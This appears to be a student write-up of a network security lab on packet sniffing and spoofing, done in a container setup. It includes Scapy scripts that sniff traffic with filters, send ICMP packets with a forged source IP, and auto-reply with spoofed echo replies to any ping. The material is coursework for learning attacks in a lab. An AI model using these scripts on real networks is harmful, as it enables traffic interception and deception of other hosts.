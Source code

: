 # Sniffing Spooning Lab

### Task 1.1 - A

We started by setting up the sniffer.py script inside the attacker container so that we can capture packets. We used ifconfig command to get the interface name for the script.

Then, we ran the script so we are now capturing packets. In one of the other containers we did `ping google.com` and we are capturing packets:

![Alt text](/images/lb12i1.png)

When we run the script wihtout sudo permissions we are not allowed:

![Alt text](/images/lb12i2.png)

### Task 1.1 - B

In this task we are asked to filter packets:

- Capture only the ICMP packets

This is what was already in the provided sniffer.py code so that was what we did in the last task using this code:

`sniff(iface='br-0709a040ff43', filter='icmp', prn=print_pkt)`

- Capture only TCP packets from a specific IP adress.

We changed our sniffer.py script to do this:

`sniff(iface='br-0709a040ff43', filter='tcp and src host 10.9.0.5 and dst port 23', prn=print_pkt)`

![Alt text](/images/lb12i3.png)

- Capture  packets  comes  from  or  to  go  to  a  particular  subnet.   You  can  pick  any  subnet,  such  as128.230.0.0/16;

We changed our sniffer.py script to do this:

`sniff(iface='br-0709a040ff43', filter='net 128.230.0.0/16', prn=print_pkt)`

Then we pinged the subnet and we got the following:

![Alt text](/images/lb12i4.png)

### Task 1.2

To create a spoof packet we used the following code (with an arbitrary source IP address `100.100.100.100`):

```py
from scapy.all import *

a = IP()
a.src = '100.100.100.100'
a.dst = '10.9.0.5'

b = ICMP()
b.id = 0x23
b.seq = 0x1
p = a/b

send(p)
p.show()
```

We can confirm that it received and accepted the packet:

![Alt text](/images/lb12i5.png)
 
### Task 1.3

In this tasked we are asked to traceroute the path between our VM and a destination (we chose google public dns aka 8.8.8.8). For this we coded the following python script:

```py
from scapy.all import *

source = IP()
source.dst = '8.8.8.8'

notArrived = True
ttl = 1

while notArrived:
    source.ttl = ttl
    response = sr1(source/ICMP(), verbose=0, timeout=5)
   
    if response == None:
        print(f"Time Out: {ttl} packet")
    elif response.type == 0:
        print(f"Echo Reply: {ttl} {response.src}")
        notArrived = False
    else:
        print(f"Continuing: {ttl} {response.src}")
    
    ttl = ttl + 1
```

verbose - to not have output 

timeout - to not get stuck

And the output was the following:

![Alt text](/images/lb12i6.png)

As we can see, it took 13 hops to reach the destination.

### Task 1.4

In this task we are asked to Sniff and-then Spoof a packet. The goal is that when the user container machine pings X, the VM machine sends a response packet, so whether X is alive or not, the user container machine will receive a response.

For this we coded the following python script that we used in the VM:

```py 
from scapy.all import *

def spoof_reply(p):
    if (p[2].type == 8): #echo request
        psrc = p[1].src
        pdst = p[1].dst
        seq = p[2].seq
        pid = p[2].id
        load = p[3].load
        
        reply = IP(src=pdst, dst=psrc)/ICMP(type=0, seq=seq, id=pid)/load
        send(reply)
    

p = sniff(iface=['br-0709a040ff43', 'lo'], filter="icmp", prn=spoof_reply)
```

This code checks if there is a ICMP packet request, and builds a reply packet that is the same as the request packet but with src and dest swapped.

We are asked to ping 3 machines from the user container machine:

- ping 1.2.3.4

In the image it is shown a first ping without the script being running in the VM, so we can confirm that, as expected, there is no response from the host. 

The second ping was made with the running script in the VM so, as expected, we got a reply.

![Alt text](/images/lb12i7.png)

- ping 10.9.0.99

This IP is a non-existing host on the LAN so when we try to ping it from the user container machine, no packet actually passes the sniffing filter so there are no responses sent even though the script is running on the VM. This is because the user container machine doesn't know how to reach 10.9.0.99 as there are no information about that in the ARP table.

- ping 8.8.8.8

In the image it is shown a first ping without the script being running in the VM, so we can confirm that, as expected, there is only one response per packet sent.

The second ping was made with the running script in the VM, as the server actually exists, we got a duplicate response on each packet sent.

![Alt text](/images/lb12i8.png)
